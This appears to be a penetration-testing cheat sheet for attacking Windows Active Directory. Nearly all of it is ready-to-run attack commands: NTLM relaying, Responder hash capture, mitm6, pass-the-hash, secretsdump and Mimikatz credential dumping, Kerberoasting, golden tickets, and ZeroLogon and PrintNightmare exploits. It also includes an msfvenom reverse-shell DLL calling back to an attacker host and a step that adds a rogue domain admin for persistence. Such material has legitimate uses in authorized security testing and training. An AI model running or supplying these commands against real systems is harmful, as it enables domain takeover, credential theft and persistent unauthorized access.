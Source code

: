 # Remote NTLM Relaying via Meterpreter (Port Forwarding)
- On the victim machine
```powershell
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```
- In the Meterpreter session
```powershell
portfwd add -R -L 0.0.0.0 -l 445 -p 445
```
- On ntlmrelayx
```powershell
ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```
# Capturing hashes using RESPONDER
```bash
 sudo responder -I tun0 -dwPv
```
# SMB Relay 
> SMB signing must be disabled
Scan host without smb signing
```bash
nmap --script=smb2-security-mode.nse -p445 192.168.107.186 -Pn
```
- Turn off smb and http from **Responder.conf** file
- Run Responder
```bash
sudo responder -I tun0 -rdw -v
```
- Setup another tool `ntlmrelayx.py`
```bash
ntlmrelayx.py -tf <target file> -smb2support
```
# IPv6 DNS Takeover via mitm6 & ntlmrelayx
- Set up ntlmrelayx.
```bash
ntlmrelayx.py -6 -t ldaps://<target IP> -wh fakepad.marvel.local -l lootme
```
- Setup MITM6.
```bash
sudo mitm6 -d <domain name>
```
On successful it will create a lootme folder in the local machine with a bunch of information.

# Pass Attacks
- Using **Crackmapexec smb**
```bash
crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -p <password>

crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -H <hash> --local-auth
```
# Dumping and Cracking hashes
- using **secretsdump**
```bash
secretsdump.py <domain>/<user>:<password>@<target IP>

secretsdump.py <user>:@<IP> -hashes <hash>
```
# Kerberosting
- Using **GetUserSPNs**
```bash
sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <IP> -request
```
# Token Impersonation
- Using **Metasploit**
```bash
meterpreter> load incognito
meterpreter> list tokens -u
meterpreter> impersonate_token <token name>
```
- Next for persistence, we can add new users and run secretsdump.
```bash
meterpreter> net user /add badboy password123 /DOMAIN
meterpreter> net group "Domain Admins" badboy /ADD /DOMAIN


secretsdump.py <Domain>/badboy:'password123'@<IP>
```
# URL File Attacks
- Make an internet shortcut file (Example: "@test.url")
- Put the file into the shared directory on SMB
```text
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<IP>\%USERNAME%.icon
IconIndex=1
```
- Set up the responder.
```bash
responder -I eth0 -v
```
When the user moves to the shared directory credentials data intercepts through the responder.

# GPP Attacks
- Using Metasploit.
```bash
use auxiliary/scanner/smb/smb_enum_gpp
```
- Using SMBclient, Check for anonymous login allowed
```bash
smbclient -L \\\\<IP>\\

smbclient \\\\<IP>\\<anonymous login allowed share>
prompt off
recurse on
mget *
```
- Check for **Group.xml** file
- Copy the cpassword and run cmd to decrypt it.
```bash
 gpp-decrypt <cPassword>
```
- Using GetUserSPNs we can dump credentials.
```bash
 GetUserSPNs.py <Domain/username:password> -dc-ip <DC IP> -request
```
# Mimikatz Credentials Dumping
```bash
privilege::debug
sekurlsa:logonpasswords
```
# Golden Ticket Attacks
- Using **Mimikatz**
```bash
privilege::debug
lsadump::lsa /inject /name:krbtgt
```
- Copy the SID of the domain and paste it into a safe place
- Copy the NTLM hash for the **krbtgt** account and paste it into a safe place
- Now, generate a golden ticket
```powershell
kerberos::golden /User:Fakeuser /domain:<domain name> /sid:<SID> /krbtgt:<NTLM hash> /id:500 /ptt

# Interact with the session using PTT, use cmd:
misc::cmd
```
# Abusing [ZeroLogon](https://github.com/dirkjanm/CVE-2020-1472)
- Check if the target is vulnerable to [Zerologon](https://github.com/SecuraBV/CVE-2020-1472) exploit.
```bash
python3 zerologon_check.py <DOMAIN CONTROLLER> <IP>
```
- Exploiting the target domain.
 ```bash
python3 cve-2020-1472-exploit.py <DOMAIN CONTROLLER> <IP>
```
- Using **secretsdump** we can dump credentials.
```bash
secretsdump.py -just-dc <DOMAIN>/<DOMAIN CONTROLLER>\$@<IP>
```
- To restore the password over the domain controller. Run secretsdump using the dumped administrator and hash
```bash
secretsdump.py administrator@<IP> -hashes <hash>
```
- Copy the Domain Controller's Plain Text Hex from the results above.
```bash
python3 restorepassword.py <Domain>/DOMAIN CONTROLLER>@<DOMAIN CONTROLLER> -target-ip <IP> -hexpass <Plain Text Hex>  
```

# [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675.git) Attack
```powershell
rpcdump.py @<DC IP> | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
# DC is vulnerable
```
- Create a malicious DLL file using msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=8888 -f dll > shell.dll
```
- Set up Metasploit using exploit/multi/handler
- Now, setup a file share to parse the shell.dll file
```bash
smbserver.py share `pwd` -smb2support
```
- All set, now run the exploit script.
```bash
python3 CVE-2021-1675.py <DC>/<user>:<Password>@<DC IP> '\\<LHOST>\share\shell.dll'
```

